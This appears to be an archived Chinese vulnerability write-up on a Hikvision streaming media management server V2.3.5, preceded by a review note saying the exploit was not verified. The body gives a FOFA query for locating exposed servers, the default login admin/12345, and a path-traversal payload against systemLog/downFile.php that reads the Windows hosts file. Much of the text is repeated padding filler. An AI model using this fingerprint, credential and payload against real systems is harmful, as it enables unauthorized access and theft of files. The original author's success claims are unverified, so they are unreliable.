


# HIKVISION 流媒体管理服务器 - 任意文件读取漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Hikvision流媒体管理服务器V2.3.5
- 本文讨论：systemLog/downFile.php fileName路径穿越；默认admin密码
- 版本、权限与配置前提：Windows部署，先登录示例但读取是否需认证未明确
- 资料类型：流媒体管理文件读取与默认凭据；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 大量凑字数占位正文；无完整请求/响应文本或补丁
- 弱口令与文件读是否独立前提未分清

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 文件读取是否匿名、固件安全版本及默认值待确认
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/rNyBEJ_YWAiMaAoIlM9OjQ)


**0x01 漏洞描述**  

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞和任意文件读取漏洞，攻击者可利用该漏洞获取敏感信息。

**0x02 影响版本**

HIKVISION V2.3.5

**0x03 漏洞利用**

```
## FOFA指纹
title="流媒体管理服务器"
```

弱口令：admin - 12345  


< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 ><凑字数>< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >





```
## Payload
/systemLog/downFile.php?fileName=../../../../../../../windows/system32/drivers/etc/hosts
```


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
